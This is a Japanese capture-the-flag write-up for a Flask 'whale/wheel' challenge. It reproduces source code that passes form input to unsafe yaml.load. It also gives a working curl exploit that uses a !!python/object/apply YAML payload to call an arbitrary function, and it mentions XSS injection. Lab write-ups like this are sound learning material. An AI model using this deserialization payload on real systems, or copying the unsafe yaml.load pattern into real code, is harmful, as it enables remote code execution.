 Not solved :(

# Try

http://chal.cybersecurityrumble.de:7780　にアクセス。

![](img/2020-10-31-17-15-23.png)

![](img/2020-10-31-17-14-00.png)

入力欄があって、[submit] を押すと入力した内容と画像が表示される。

![](img/2020-10-31-17-14-54.png)


```py
import yaml
from flask import redirect, Flask, render_template, request, abort
from flask import url_for, send_from_directory, make_response, Response
import flag

app = Flask(__name__)

EASTER_WHALE = {"name": "TheBestWhaleIsAWhaleEveryOneLikes", "image_num": 2, "weight": 34}

@app.route("/")
def index():
    return render_template("index.html.jinja", active="home")


class Whale:
    def __init__(self, name, image_num, weight):
        self.name = name
        self.image_num = image_num
        self.weight = weight
    
    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/whale", methods=["GET", "POST"])
def whale():
    if request.method == "POST":
        name = request.form["name"]
        if len(name) > 10: 
            return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
        image_num = request.form["image_num"]
        weight = request.form["weight"]
        whale = Whale(name, image_num, weight)
        if whale.__dict__ == EASTER_WHALE:
            return make_response(flag.get_flag(), 200) # ★
        return make_response(render_template("whale.html.jinja", w=whale, active="whale"), 200)
    return make_response(render_template("whale_builder.html.jinja", active="whale"), 200)


class Wheel:
    def __init__(self, name, image_num, diameter):
        self.name = name
        self.image_num = image_num
        self.diameter = diameter

    @staticmethod
    def from_configuration(config):
        return Wheel(**yaml.load(config, Loader=yaml.Loader))
    
    def dump(self):
        return yaml.dump(self.__dict__)


@app.route("/wheel", methods=["GET", "POST"])
def wheel():
    if request.method == "POST":
        if "config" in request.form:
            wheel = Wheel.from_configuration(request.form["config"])
            return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
        name = request.form["name"]
        image_num = request.form["image_num"]
        diameter = request.form["diameter"]
        wheel = Wheel(name, image_num, diameter)
        print(wheel.dump())
        return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
    return make_response(render_template("wheel_builder.html.jinja", active="wheel"), 200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=5000)

```

★を実行できればフラグが得られそう。

ただし、`name`が長いので普通に入力しても、

```py
if len(name) > 10: 
    return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
```

によって弾かれてしまう。

![](img/2020-10-31-17-32-11.png)

Flaskに対するSSTIを試してみたが、Formで与えた値がstr型になっているので上手くいかなった。

* [CTF的 Flaskに対する攻撃まとめ](https://qiita.com/koki-sato/items/6ff94197cf96d50b5d8f)

入力された文字列が表示されるので`<script>`タグを埋め込んでXSSすることもできたりする。

![](img/2020-11-02-01-06-58.png)

# Solution

[writeup]

* https://cryptax.github.io/2020/11/01/whales.html

`config`パラメータをつけてPOSTリクエストを送ると`from_configuration()`が実行されることが分かる。

```py
@staticmethod
def from_configuration(config):
    return Wheel(**yaml.load(config, Loader=yaml.Loader))
```

```py
if "config" in request.form:
    wheel = Wheel.from_configuration(request.form["config"])
    return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
```

ここで、`yaml.load()`に任意のデータを与えることによって攻撃する。

>**Warning**: It is not safe to call yaml.load with any data received from an untrusted source! yaml.load is as powerful as pickle.load and so may call any Python function. Check the yaml.safe_load function though.
>> https://pyyaml.org/wiki/PyYAMLDocumentation

`yaml.load()`にはpythonオブジェクトを埋め込むことができるので、`flag.get_flag()`関数を`apply()`で呼び出すようにする。

`!!python/object/apply:flag.get_flag`

よって、以下を実行すると`name`にフラグが表示される。

```bash
curl -X POST http://chal.cybersecurityrumble.de:7780/wheel -d 'config={name: !!python/object/apply:flag.get_flag [], image_num: 2, diameter: 5}'
```

<!-- CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?} -->

## コメント

こういった背景もあってか、公式では`yaml.load()`ではなく`yaml.safe_load()`が推奨されていることを学んだ。

`config`パラメータをPOSTしたときのための処理があるのは気づいていたが、設定ファイルを読み込むためのものだと思ってスルーしてしまったのが甘かった。




